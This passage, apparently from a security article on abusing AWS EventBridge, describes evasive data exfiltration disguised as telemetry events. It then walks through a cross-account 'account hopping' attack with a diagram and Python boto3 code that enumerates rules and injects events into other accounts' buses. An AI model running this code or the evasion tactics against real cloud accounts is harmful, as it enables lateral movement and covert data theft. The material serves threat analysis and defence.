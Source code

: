 )
time.sleep(10) # Space out requests
Here, the attacker disguises the data as normal telemetry events, and by spacing out the requests, the attacker can exfiltrate sensitive information without triggering alerts. The small chunk size avoids triggering data volume alerts, while the time delays between events prevent rate limiting or burst detection. Since PutEvents API call operations aren't logged in CloudTrail, forensic analysis becomes extremely difficult.
### Attack 5: Cross-Account Movement - "Account Hopping"
**MITRE ATT &CK Connection:**Trusted Relationship (T1199), Lateral Movement (T1210)
An attacker who owns a low-trust dev account can pivot into staging and then production by abusing the cross-account EventBridge rules and execution roles that teams often configure for CI/CD or telemetry. EventBridge itself will not forward an event to a third account (“one-hop” rule) so the adversary simply re-emits a fresh event from inside each newly breached account. If the next bus’s resource policy trusts the caller’s account or Organization ID and a role in that account can invoke PutEvents, the hop succeeds.
+------------------+ +-------------------+ +------------------+
| Attacker in | | EventBridge Rule | | EventBus in |
| dev (Account A) +------->| (Sends to Acct B) +------->| staging (Acct B) |
+------------------+ +-------------------+ +------------------+
|
v
+------------------+
| EventBus in |
| prod (Acct C) |
+------------------+
|
v
+--------+---------+
| Target Resource |
| (e.g., Lambda |
| in prod Acct C) |
+------------------+
Cross-Account Movement Flow
The attacker discovers and exploits cross-account event rules by enumerating through the rule list:
# Find rules that send events to other accounts
import boto3, json, re
events = boto3.client("events")
next_t = None
acct_id = boto3.client("sts").get_caller_identity()["Account"]
while True:
resp = events.list_rules(EventBusName="default", NextToken=next_t) # explicit bus
for rule in resp["Rules"]:
for tgt in events.list_targets_by_rule(Rule=rule["Name"],
EventBusName="default")["Targets"]:
if "event-bus" in tgt["Arn"]: # cross-account bus
trg_acct = tgt["Arn"].split(":")[4]
if trg_acct != acct_id:
events.put_events(
Entries=[{
"Source": "com.acme.devops", # custom, allowed
"DetailType": "ScheduledEvent",
"Detail": json.dumps({"payload": "malicious"}),
"EventBusName": tgt["Arn"]
}]
)